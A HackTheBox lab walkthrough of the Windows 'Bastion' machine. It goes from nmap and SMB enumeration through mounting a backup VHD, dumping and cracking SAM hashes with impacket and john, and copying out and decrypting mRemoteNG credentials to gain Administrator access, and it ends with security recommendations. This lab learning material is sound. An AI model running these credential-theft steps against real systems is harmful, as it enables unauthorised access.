


# Bastion HackTheBox Walkthrough

This report documents a full exploitation chain of the **Bastion** Windows Server machine.  
The process involves SMB enumeration, disk image extraction, credential recovery, and escalation to administrator privileges via decrypted RDP credentials.

---

## 1. Initial Reconnaissance

We began with a comprehensive Nmap scan to identify open ports and running services on the target system `10.129.136.29`:

```bash
nmap -p- -Pn 10.129.136.29 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.136.29 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.136.29 -v --script vuln -oN nmap_vuln.txt
```


Open ports revealed the presence of **SMB** services and an **SSH** port, indicating possible Windows administrative access.

---

## 2. SMB Enumeration

We enumerated available SMB shares using `smbclient`:

```bash
smbclient -L 10.129.136.29
```



The **Backups** share appeared particularly interesting, containing several large files, including what appeared to be virtual hard disk (VHD) images of the system.


---

## 3. Accessing the Backup Share

We mounted the Backups share locally to analyze its contents:

```bash
sudo mount -t cifs //10.129.136.29/Backups /mnt/backups
```


Inside the share, we found several `.vhd` files representing disk backups.

To access the data within these virtual drives, we used the **libguestfs-tools** suite and mounted the VHD image:

```bash
sudo apt install libguestfs-tools
guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd/
```


---

## 4. Extracting Credentials from SAM & SYSTEM

With the mounted VHD, we navigated to the Windows directory and retrieved the **SAM** and **SYSTEM** registry hives:



```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```


The dump revealed several local user hashes. We saved the hash for **L4mpje** and cracked it using `john`:

```bash
john --wordlist=rockyou.txt hash.txt --format=NT
```


This yielded the password for **L4mpje**.

---

## 5. SSH Access & User Flag

Knowing port 22 (SSH) was open, we logged in using the cracked credentials:


Once connected, we found the **user flag** on the desktop:


---

## 6. Privilege Escalation via mRemoteNG Credential Decryption

During local enumeration, we discovered **mRemoteNG** installed — a remote management application known to store encrypted credentials.


We located the configuration file containing stored RDP credentials:

```
C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
```

We copied it to the desktop and transferred it to our local machine:

```bash
cp confCons.xml C:\Users\L4mpje\Desktop
scp L4mpje@10.129.136.29:/c/Users/L4mpje/Desktop/confCons.xml .
```


We then used a public decryptor to recover plaintext credentials from the encrypted file:

[https://github.com/kmahyyg/mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)


After several attempts, the file successfully decrypted, revealing the **Administrator** credentials.

---

## 7. Administrator Access & Root Flag

Using the recovered credentials, we connected via SSH to the system as Administrator:


Access was successful, granting full administrative privileges. The **root flag** was located on the Administrator’s desktop.

---

## 8. Conclusion

This engagement demonstrates a real-world chain of misconfigurations leading to complete system compromise.

### Key Findings:
- SMB shares exposed sensitive backup data containing entire disk images.  
- The VHD file contained recoverable credential data in plaintext registry hives.  
- Weak password reuse and insecure storage practices allowed privilege escalation.  
- mRemoteNG stored encrypted RDP credentials locally, enabling credential theft.

### Security Recommendations:
- Restrict SMB share access to authorized users only.  
- Avoid storing sensitive VHD or backup files in network-accessible locations.  
- Use full disk encryption or remove sensitive credential hives before backup.  
- Replace mRemoteNG or ensure stored credentials are encrypted with unique master keys.  
- Monitor for backup extraction or unauthorized mounting activity across the network.

---
